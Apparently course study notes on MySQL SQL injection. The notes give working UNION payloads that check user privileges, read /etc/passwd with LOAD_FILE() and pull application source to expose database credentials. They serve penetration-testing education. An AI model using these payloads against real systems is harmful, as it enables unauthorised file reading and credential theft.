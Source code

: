 # Reading Files through SQL Injection

## Checking User Privileges

### Identifying Current User
- Determine which database user you're operating as using:
  ```sql
  SELECT USER()
  SELECT CURRENT_USER()
  SELECT user from mysql.user
  ```
- Example payload:
  ```sql
  cn' UNION SELECT 1, user(), 3, 4-- -
  ```

### Checking User Privileges
- Test for superuser privileges:
  ```sql
  cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
  ```
  - 'Y' indicates superuser (YES)

- Enumerate all privileges:
  ```sql
  cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
  ```

- **Key privilege for file operations**: `FILE` privilege
  - Required to read files from the server filesystem
  - Usually restricted to privileged users (like DBAs)
  - Modern DBMSs are more restrictive with this privilege

## Reading Files with LOAD_FILE()

### Using LOAD_FILE() Function
- Syntax: `LOAD_FILE('/path/to/file')`
- Example to read system files:
  ```sql
  cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
  ```

### Important Considerations
- Success depends on several factors:
  1. The DB user must have FILE privilege
  2. The OS user running the database must have read permissions on the target file
  3. The full path to the file must be specified

### Practical Applications
- Reading sensitive system files (like `/etc/passwd`)
- Accessing application source code:
  ```sql
  cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
  ```
  - Can reveal database credentials within source code
  - Can expose application logic and additional vulnerabilities
  - View page source (Ctrl+U) when HTML is rendered in browser
